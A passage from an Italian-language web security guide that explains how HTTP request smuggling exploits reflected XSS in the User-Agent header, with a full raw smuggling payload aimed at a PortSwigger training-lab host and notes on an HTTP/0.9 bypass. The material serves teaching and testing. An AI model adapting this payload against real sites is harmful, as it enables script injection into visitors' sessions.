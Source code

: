 L'HTTP Request Smuggling può essere sfruttato per attaccare pagine web vulnerabili a **Reflected XSS**, offrendo vantaggi significativi:

- L'interazione con gli utenti target **non è necessaria**.
- Consente di sfruttare il XSS in parti della richiesta che sono **normalmente inaccessibili**, come le intestazioni delle richieste HTTP.

In scenari in cui un sito web è suscettibile a Reflected XSS attraverso l'intestazione User-Agent, il seguente payload dimostra come sfruttare questa vulnerabilità:
```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```
Questo payload è strutturato per sfruttare la vulnerabilità tramite:

1. Iniziare una richiesta `POST`, apparentemente tipica, con un'intestazione `Transfer-Encoding: chunked` per indicare l'inizio dello smuggling.
2. Seguire con un `0`, che segna la fine del corpo del messaggio chunked.
3. Poi, viene introdotta una richiesta `GET` smuggled, dove l'intestazione `User-Agent` è iniettata con uno script, `<script>alert(1)</script>`, attivando l'XSS quando il server elabora questa richiesta successiva.

Manipolando il `User-Agent` tramite smuggling, il payload bypassa i normali vincoli delle richieste, sfruttando così la vulnerabilità XSS Riflessa in modo non standard ma efficace.

#### HTTP/0.9

> [!CAUTION]
> Nel caso in cui il contenuto dell'utente venga riflesso in una risposta con un **`Content-type`** come **`text/plain`**, impedendo l'esecuzione dell'XSS. Se il server supporta **HTTP/0.9 potrebbe essere possibile bypassare questo**!

La versione HTTP/0.9 era precedente alla 1.0 e utilizza solo verbi **GET** e **non** risponde con **intestazioni**, solo il corpo.

In [**questo writeup**](https://mizu.re/post/twisty-python), questo è stato abusato con uno smuggling di richieste e un **endpoint vulnerabile che risponderà con l'input dell'utente** per smuggler una richiesta con HTTP/0.9. Il parametro che verrà riflesso nella risposta conteneva una **falsa risposta HTTP/1.1 (con intestazioni e corpo)** in modo che la risposta contenga codice JS eseguibile valido con un `Content-Type` di `text/html`.
